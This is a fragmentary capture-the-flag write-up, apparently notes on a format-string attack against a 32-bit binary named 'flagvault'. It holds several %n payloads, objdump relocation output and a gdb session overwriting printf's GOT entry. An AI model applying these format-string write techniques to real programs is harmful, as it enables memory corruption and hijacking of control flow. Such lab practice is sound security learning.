 After some thinking some ideas to jump to the flag
1. Overwrite the GOT: Probably printf
2. Overwrite the stack return pointer but that seems too far?

# Some random experimentation
\xd0\x86\x04\x80%x%n

%4160439662d\xd0\x86\x04\x80%n

`\xd0\x86\x04\%x%x%x%n`: Segmentation fault, crashes at 0x0804868d

%136410235$x%n

`%4$136410235x%n` : Gives you a ton of padding

`\x76\x86\x04\x80%4$136410235x%n`


## Where (in memory) to go to?

Looking at the disassembled code, an instinct is to try overwriting the printf

```
$ objdump -TR ./flagvault 

./flagvault:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*	00000000  GLIBC_2.0   strcmp
00000000      DF *UND*	00000000  GLIBC_2.0   printf
00000000      DF *UND*	00000000  GLIBC_2.0   puts
00000000  w   D  *UND*	00000000              __gmon_start__
00000000      DF *UND*	00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*	00000000  GLIBC_2.0   setvbuf
00000000      DF *UND*	00000000  GLIBC_2.7   __isoc99_scanf
0804a044 g    DO .bss	00000004  GLIBC_2.0   stdout
0804878c g    DO .rodata	00000004  Base        _IO_stdin_used
0804a040 g    DO .bss	00000004  GLIBC_2.0   stdin


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ffc R_386_GLOB_DAT    __gmon_start__
0804a040 R_386_COPY        stdin@@GLIBC_2.0
0804a044 R_386_COPY        stdout@@GLIBC_2.0
0804a00c R_386_JUMP_SLOT   strcmp@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a018 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   setvbuf@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7
```

gdb testing, overwriting printf
```
0x08048676 in main ()
(gdb) set {int}0x0804a010=0x80486d0
(gdb) ni
0x08048679 in main ()
(gdb) 
0x0804867e in main ()
(gdb) 
Incorrect credentials!
[Inferior 1 (process 11485) exited normally]
(gdb) 
The program is not being run.
```